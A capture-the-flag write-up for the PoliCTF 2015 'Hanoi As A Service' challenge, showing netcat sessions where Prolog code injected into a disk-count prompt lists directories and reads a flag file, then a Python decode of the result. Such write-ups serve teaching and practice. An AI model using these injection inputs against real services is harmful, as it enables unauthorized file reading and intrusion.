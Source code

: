 ```yaml
---
layout: post
title: "PoliCTF 2015 Hanoi As A Service"
date: 2015-07-12 17:18:36 -0400
author: [barrebas]
comments: true
categories: [polictf]
---
```


### Solved by barrebas

Hanoi As A Service was a 50 point pwnable in PoliCTF and gave me a reason to hate PROLOG.

<!--more-->

We're given `nc haas.polictf.it 80` as point of attack. Let's start:

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?

ERROR: Prolog initialisation failed:
ERROR: Syntax error: Unexpected end of clause
ERROR: hanoi() 
ERROR: ** here **
ERROR: .
```

Interesting. I now know I'm up against some Prolog program. Let's see if we can inject Prolog code:


```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), hanoi(2). 
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
```

Looks like we can! Now, since I never learned Prolog as a kid (I'm more of a BASIC boy), I searched around for code examples. I couldn't just grab the flag so I started with enumerating.

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/*', S), write(S). 
[/home/ctf,/home/ubuntu]

# enumerate /home/ctf:

bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/ctf/*', S), write(S). %
[/home/ctf/haas]bas@tritonal:~$ 

# enumerate /home/ctf/haas:

bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), expand_file_name('/home/ctf/haas/*', S), write(S).  
[/home/ctf/haas/haas,/home/ctf/haas/haas-proxy.py,/home/ctf/haas/jhknsjdfhef_flag_here]
```

I now had the location of the flag. Now, to read it... Turns out Prolog does not have a "normal" way to read arbitrary files (it expects Prolog terms or something). I searched for a good while and finally:

```bash
bas@tritonal:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0), open('/home/ctf/haas/jhknsjdfhef_flag_here', read, S), read_line_to_codes(S, T), write(T). 
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
```

Back to python!

```python
>>> a = [102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
>>> print "".join([chr(x) for x in a])
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```

50 points and first blood for Team Vulnhub. 


